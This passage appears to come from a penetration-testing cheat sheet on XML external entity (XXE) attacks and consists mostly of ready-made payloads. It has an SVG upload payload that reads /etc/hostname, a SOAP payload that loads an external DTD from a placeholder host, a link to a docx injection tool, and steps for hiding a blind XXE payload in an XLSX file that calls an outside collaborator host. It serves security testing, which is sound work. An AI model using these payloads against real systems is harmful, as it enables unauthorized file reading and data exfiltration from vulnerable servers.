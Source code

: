 Image upload forms can be vulnerable to XXE if they allow uploading SVG files. Here is a sample payload that should be tested:

``` xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### SOAP XXE

This payload should be tested on every parameter where a SOAP query could be formed in the backend:

``` xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### DOCX

A great tool exists for injecting in docx files: <https://github.com/BuffaloWill/oxml_xxe>

### XLSX

1.  Extract the excel file:

```{=html}
<!-- -->
```
    $ mkdir XXE && cd XXE
    $ unzip ../XXE.xlsx
    Archive:  ../XXE.xlsx
      inflating: xl/drawings/drawing1.xml
      inflating: xl/worksheets/sheet1.xml
      inflating: xl/worksheets/_rels/sheet1.xml.rels
      inflating: xl/sharedStrings.xml
      inflating: xl/styles.xml
      inflating: xl/workbook.xml
      inflating: xl/_rels/workbook.xml.rels
      inflating: _rels/.rels
      inflating: [Content_Types].xml

1.  Add your blind XXE payload in `xl/workbook.xml` or add your payload in `xl/sharedStrings.xml`

xl/workbook.xml

``` xml
<xml...>
  <!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
  <x>&xxe;</x>
  <workbook...>
```
